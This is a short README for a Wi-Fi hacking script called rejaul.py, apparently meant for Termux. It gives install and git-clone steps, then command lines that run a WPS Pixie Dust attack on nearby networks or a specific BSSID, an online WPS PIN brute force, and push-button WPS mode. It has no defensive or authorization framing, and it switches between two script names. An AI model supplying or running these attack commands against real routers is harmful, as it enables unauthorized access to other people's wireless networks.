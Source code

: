 <!--- mark down --->
---
# wifi hack tool all run to rejaul.py
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

## github link:-

``` git clone https://github.com/princeicon2712/rejaul2712.git ```

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

## wps router push button:

``` sudo python rejaul1.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

<!--[profile](./rejaul.jpg)-->
<img src="rejaul.jpg" width="600"/>
